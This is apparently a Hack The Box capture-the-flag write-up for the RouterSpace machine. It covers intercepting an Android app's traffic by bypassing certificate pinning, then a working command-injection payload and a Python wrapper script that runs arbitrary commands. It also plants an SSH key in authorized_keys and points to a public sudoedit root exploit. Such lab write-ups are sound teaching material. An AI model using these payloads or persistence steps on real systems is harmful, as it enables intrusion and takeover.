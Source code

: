 ![](routerspace_banner.png)

<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.148 routerspace.htb

**nmap scan: TCP/IP**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-285
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 64
|     ETag: W/"40-IsjmuQeSoXp5nkQG8W0b7AT2rqg"
|     Date: Fri, 13 May 2022 01:39:18 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: 3 A ob6Q }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-68559
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 13 May 2022 01:39:15 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-23456
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 13 May 2022 01:39:16 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
|_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data.
```


Nothing interesting on home page, except a download link for an android application.

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-10.10.11.148-index.html.png">
    <img src="screenshots/http-10.10.11.148-index.html.png" style="clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px); -webkit-clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px)" alt="image-20220608173116399">
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-10.10.11.148-index.html.png"><i>Click for full image</i></a></div>
</div>

Also don't find anything interesting from decompiling apk.

# Foothold 

## Android app dynamic analysis

Running apk in android emulator [genymotion](https://www.genymotion.com/).

![](screenshots/app-network-error.png)

For Running and Intercepting application traffic we need to do some configurations.

1. Install genymotion and virtualbox and other required libraries.
   * Download: https://www.genymotion.com/download/
   * Install: https://docs.genymotion.com/desktop/Get_started/013_Linux_install/
   * If you get Error: "An error has occurred while trying to create a VirtualBox host-only network interface." Run this: `sudo apt-get --reinstall install virtualbox-dkms`

2. Add new virtual device with Android API version less than or equal to Android 8.1 OR API 27.
   * I use "NAT" network mode for virtualbox network interface.

3. Install xposedinstaller and JustTrustMe, and enable "JustTrustMe" from xposed modules.

   ![](screenshots/xposed-justtrustme.png)

4. Install burp CA certificate as root.
5. Put burp proxy address in your android VM using adb shell.

* There are some changes in Android CA policies since Android N (Android version 7.0 to 7.1) which makes it hard to intercept application traffic because of the [certificate pinning](https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning).
* RECOMMENDED version is 4.4 but application doesn't support old android API. if you want to use newer version then it must **NOT** greater then 8.1 because there a xposed module ([JustTrustMe](https://github.com/Fuzion24/JustTrustMe)) available to bypass certificate pinning up to Android API 27 - https://forum.xda-developers.com/t/official-xposed-for-lollipop-marshmallow-nougat-oreo-v90-beta3-2018-01-29.3034811/
  * xposedinstaller - https://forum.xda-developers.com/attachments/xposedinstaller_3-1-5-apk.4393082/
  * JustTrustMe - https://github.com/Fuzion24/JustTrustMe/releases/download/v.2/JustTrustMe.apk

And for intercepting application traffic in newer android we need to install burp CA certificate as root - https://blog.ropnop.com/configuring-burp-suite-with-android-nougat/ 
```bash
# Convert DER to PEM
openssl x509 -inform DER -in cacert.der -out cacert.pem

# Get subject_hash_old (or subject_hash if OpenSSL < 1.0)
openssl x509 -inform PEM -subject_hash_old -in cacert.pem |head -1

# Rename cacert.pem to <hash>.0
mv cacert.pem 9a5ba575.0

# Remount and copy cert to device
adb root
adb remount
adb push 9a5ba575.0 /sdcard/
adb shell
vbox86p:/ # mv /sdcard/9a5ba575.0 /system/etc/security/cacerts/
vbox86p:/ # chmod 644 /system/etc/security/cacerts/9a5ba575.0
vbox86p:/ # exit
adb reboot
```

![](screenshots/adb-install-cert.png)

And, for routing traffic through Burpsuite, add burp proxy using adb shell
```bash
adb shell settings put global http_proxy localhost:3333
adb reverse tcp:3333 tcp:8080

# for removing proxy from android
adb shell settings put global http_proxy :0
```

And finally proxy setup completed successfully, now we can intercept application traffic.

![](screenshots/app-status-request.png)

* Got a hostname: `routerspace.htb`, add in `/etc/hosts` file.

And that "`ip`" parameter is vulnerable for command injection
```bash
curl -s -X POST \
    -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' -H 'Host: routerspace.htb' \
    --data-binary $'{\"ip\":\";id\"}' \
    $'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess'
```

![](screenshots/command-injection.png)

But reverse shell is not working, Maybe we have to enumerate file system from here.

Here's simple python script for that.
```py
import requests as r
import sys

cmd = sys.argv[1]
headers = {'user-agent': 'RouterSpaceAgent', 'Content-Type': 'application/json', 'Host': 'routerspace.htb'}
url = 'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess' 
data = {"ip":f";{cmd}"}
req = r.post(url=url, json=data, headers=headers)
print(req.text.encode('utf-8').decode('unicode_escape'))
```

Don't find private ssh key but we have write access so we could add our public key inside `/home/paul/.ssh/authorized_keys`
* use `ssh-keygen` to generate ssh key pair
```bash
python exploit.py 'echo "<ssh_public_key>" > /home/paul/.ssh/authorized_keys'
```

And successfully get ssh shell as user "paul".

# Privesc

## Sudoedit Exploit

There are some IPtable rules which blocking any unwanted incoming or outgoing traffic which blocks our reverse shell.

Easiest way to put linpeas.sh script in the box is using `scp` command.
```bash 
scp -i paul linpeas.sh paul@10.10.11.148:/tmp
```

Linpeas "Linux Exploit Suggester" check found that box is vulnerable for [sudoedit](https://github.com/worawit/CVE-2021-3156) exploit.

* Here is working exploit version - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py

![](screenshots/routerspace-rooted.png)

